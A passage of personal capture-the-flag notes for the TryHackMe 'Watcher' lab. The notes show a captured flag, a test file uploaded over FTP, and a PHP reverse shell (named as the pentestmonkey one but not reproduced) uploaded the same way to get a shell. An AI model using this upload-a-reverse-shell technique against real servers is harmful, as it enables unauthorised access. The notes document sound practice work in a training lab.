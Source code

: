 # Flag2

```python

┌──(dedrknex㉿kali)-[~/oscp/Tryhackme/watcher_10.10.65.41]
└─$ cat flag_2.txt        
FLAG{ftp_you_and_me}

```

# using the ftp as a way for shell

```bash
──(dedrknex㉿kali)-[~/oscp/Tryhackme/watcher_10.10.65.41]
└─$ echo "helllo world" > hello.txt

ftp> put hello.txt 
local: hello.txt remote: hello.txt
229 Entering Extended Passive Mode (|||47877|)
150 Ok to send data.
100% |*******************************************|    13      211.58 KiB/s    00:00 ETA
226 Transfer complete.


```

![](Tryhackme/Linux/Watcher/attachments/Pasted%20image%2020240415194524.png)


now time to get the revshell

```bash

┌──(dedrknex㉿kali)-[~/oscp/Tryhackme/watcher_10.10.65.41]
└─$ vi shell.php


put the penestmonkey revshell


ftp> put shell.php 
local: shell.php remote: shell.php
229 Entering Extended Passive Mode (|||42573|)
150 Ok to send data.
100% |*******************************************|  2593       38.04 MiB/s    00:00 ETA
226 Transfer complete.
2593 bytes sent in 00:00 (5.54 KiB/s)

```

![](Tryhackme/Linux/Watcher/attachments/Pasted%20image%2020240415195245.png)
